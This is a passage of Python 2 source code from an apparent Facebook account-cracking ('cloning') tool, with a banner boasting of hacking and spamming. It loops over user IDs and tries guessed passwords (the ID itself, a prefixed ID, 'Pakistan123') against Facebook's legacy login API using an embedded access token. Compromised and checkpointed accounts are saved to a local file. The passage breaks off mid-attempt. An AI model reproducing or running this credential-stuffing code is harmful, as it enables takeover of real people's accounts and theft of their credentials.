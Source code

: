     xxx = str(len(id))
    jalan('\033[1;96m▬Basit Ali JATOI')
    jalan("\033[1;96m▬▬DOCTOR OF HACKING AND SPAMING")
    jalan('\033[1;96m▬▬▬PROGRAMER')
    jalan('\033[1;96m▬▬▬▬SPAMING')
    jalan("\033[1;96m▬▬▬▬▬HACKER")
    jalan("\033[1;96m▬▬▬▬▬▬THE WARNING ZONE 2.0")
    jalan('\033[1;96m▬▬▬▬▬▬▬ENJOY')
 
    jalan ('\033[1;96m Total Number of IDs: '+xxx)
    jalan ('\033[1;95mCode you choosed: '+c)
    jalan ("\033[1;94mWait A While Start Cloning...")
    jalan ("\033[1;93mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m(Jatoi Open)  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m(Sindhi Cp) ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m(Jatoi Open)  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m(Saqii Cp) ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan123"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')